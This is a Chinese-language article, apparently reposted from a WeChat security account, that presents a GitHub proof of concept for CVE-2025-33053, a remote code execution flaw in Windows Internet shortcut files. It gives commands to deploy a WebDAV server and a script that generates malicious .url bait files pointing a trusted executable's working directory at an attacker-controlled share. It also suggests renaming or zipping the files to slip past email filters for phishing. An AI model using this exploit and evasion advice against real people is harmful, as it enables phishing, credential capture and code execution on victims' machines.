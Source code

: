 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzAxMjYyMzkwOA==&mid=2247531295&idx=1&sn=eb0ef566f205a850da5af7a89d54fbc7

#  Internet 快捷方式文件远程代码执行漏洞 CVE-2025-33053 概念验证（PoC）  
 Ots安全   2025-06-24 12:26  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taeBPuV8xNIutx8uv43Qwicaj5I9WEHdpWQJNorhj6OHxrLQjKiaPQs8H1NNEVWZtib5WQmzBeJNVNz7A/640?wx_fmt=jpeg&from=appmsg "")  
  
该存储库提供脚本，用于使用 Apache2 在 Ubuntu 上自动部署 WebDAV 服务器，并生成用于网络钓鱼、红队或横向移动模拟的恶意.url快捷方式文件。  
  
📁 内容  
- setup_webdav.sh– 用于配置 Apache2 + WebDAV 的 Bash 脚本。  
  
- setup_webdav.py– 上述的 Python 版本。  
  
- gen_url.py.url–使用 UNC/WebDAV 路径生成快捷方式文件的 Python 脚本。  
  
- README.md– 文档。  
  
🔧 要求  
- 操作系统：Ubuntu 20.04 或更新版本（兼容 Debian）  
  
- Root 权限（sudo）  
  
- Python 3.x  
  
🚀 设置说明  
  
1. WebDAV 服务器（通过 Bash）  
  

```
sudo bash setup_webdav.sh
```

  
  
或者使用 Python：  
  

```
sudo python3 setup_webdav.py
```

  
  
默认情况下，脚本将：  
- 安装 Apache 和所需的 WebDAV 模块。  
  
- 在 处创建共享目录/var/www/webdav。  
  
- 启用DAV和DAV_FS模块。  
  
- 创建一个DavLockDB目录（以防止 Apache DAV 锁定错误）。  
  
- 重新启动 Apache 服务。  
  
📎 WebDAV 路径：http://<your-ip>/webdav/  
  
💣 生成恶意.url快捷方式  
  
使用示例：  
  

```
python3gen_url.py--ip 192.168.1.100--outdoc.url
```

  
  
所有选项：  
  

```
python3 gen_url.py \

--ip 《YOUR IP ADDRESS》\

--share 《YOUR SHARE NAME》(Default: webdav) \

--out 《YOUR OUTPUT FILENAME.url》(Default: bait.url) \

--exe &#34;C:\Program Files\Internet Explorer\iediagcmd.exe&#34; \

--icon &#34;C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe&#34; \

--index 13 \

  --modified 20F06BA06D07BD014D
```

  
  
这将创建一个.url如下文件：  
  

```
[InternetShortcut]

URL=C:\Program Files\Internet Explorer\iediagcmd.exe

WorkingDirectory=\\192.168.1.100\webdav\

ShowCommand=7

IconIndex=13

IconFile=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe

Modified=20F06BA06D07BD014D
```

  
  
📌 单击此文件（在某些配置中）可能会导致目标系统自动连接到您的 WebDAV 服务器（身份验证或 DLL 传送）。  
  
🔒 安全测试注意事项  
- 如果在本地网络上测试， 请禁用防火墙（或打开端口 80） ：  
  

```
sudo ufw allow 80
```

  
- .url文件可能无法按预期执行，具体取决于：  
  
- 组策略限制  
  
- 应用程序默认值  
  
- 电子邮件客户端（Gmail 可能会对其进行清理）  
  
- 您可能需要压缩或重命名.url以.txt绕过过滤器。  
  
项目地址：  
  
https://github.com/DevBuiHieu/CVE-2025-33053-Proof-Of-Concept  
  
为了您的计算机安全，请在虚拟环境上测试  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
